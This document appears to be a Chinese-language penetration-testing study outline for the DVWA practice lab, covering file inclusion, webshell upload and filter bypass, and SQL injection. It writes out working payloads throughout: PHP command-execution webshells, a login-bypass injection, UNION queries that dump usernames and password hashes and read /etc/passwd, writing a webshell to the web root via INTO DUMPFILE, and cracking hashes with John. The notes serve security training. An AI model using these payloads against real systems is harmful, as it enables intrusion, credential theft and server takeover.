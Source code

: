         - 查看文件
        - 代码执行
            - <?php echo shell_exec($_GET["cmd"])>
    - 远程文件包含rfi
        - 出现概率少于lfi,但更容易被利用
    - /usr/share/wfuzz/wordlist/vulns/
    - 文件上传漏洞
        -   <?php echo shell_exec($_GET["cmd"]);?>
    - 直接上传webshell
    - 修改文件类型上传webshell
        - Mimetype——文件头、扩展名
    - 修改文件类型上传webshell
        - 静态解析文件扩展名时可能无法执行
    - 文件头绕过过滤上传webshell
    - 上传目录权限 
    - SQL注入
        - 服务器端程序将用户输入参数作为查询条件，直接拼接SQL语句，并将查询结果返回给客户端浏览器
        - 用户登录判断
            - SELECT * FROM users WHERE username='uname' AND password='pass';
            - SELECT * FROM users WHERE username='name' AND password='' OR '=';
        - 基于报错的检测方式(low)
            - ' " % ( )
        - 基于布尔的检测
            - 1' and '1' = '1      / 1' and '1
            - 1' and '1' = '2      / 1' and '0
        - 表列数/显示信息位于那一列
            - 'order by 9--         #按查询列号排序(注释符:--) 后面必须加上空格 不加表示“ --‘ ”报错
                - select * 时表字段数=查询字段数
        - 联合查询
            - ‘ union select 1,2--+
            - ' union all select database(),2--+
            - ' union select database(),substring index(USER(),"@",1)--
            - DB用户:user()
            - DB版本：version()
            - 全局函数：@@datadir、@@hostname、@@version、@@version_compile_OS
            - 当前库:database()
            - ASCII转字符串:char()
            - 连接字符串:CONCAT_WS(CHAR(32,58,32),user(),database(),version())
            - 计算哈希:md5()
            - Mysql数据结构
                - information_schema
            - 所有库所有表/统计每库中表的数量
                - ' union select table_name,table_schema from information_schema.tables--+
                - ' union select table_schema,count(*) FROM information_Schema.tables group by table_schema--+
            - DVWA库中的表名
                - ' union select table_name,table_schema from information_schema.tables where table_schema = 'dvwa'--+
            - Users表中的所有列(user_id,first_name,last_name,user,password,avatar)
                - ' union select table_name,column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users'--+
            - 查询user,password列的内容
                - ' union select user,password from dvwa.users--+
                - ' union select user,password from users--+
                - ' union select null,concat(user,0x3a,password) from users--+
            - 密码破解
                - username:password——>dvwa.txt
                - john --format=raw-MD5 dvwa.txt --show(运行之后会在主目录下生成一个.john的文件里面有日志和破解结果)
            - 读取文件
                - ' union SELECT null,load_file('/etc/passwd')--+ 
            - 写入文件
                - ‘ union select null,"<?php passthru($_GET["cmd"]); ?>" INTO DUMPFILE "/var/www/a.php"--
                - Mysql账号
                - cat php-revers-shell.php | xxd- -ps | tr -d '\n'
                - ' union select null, (0x3c3f706870) INTO DUMPFILE '/tmp/x.php'-- 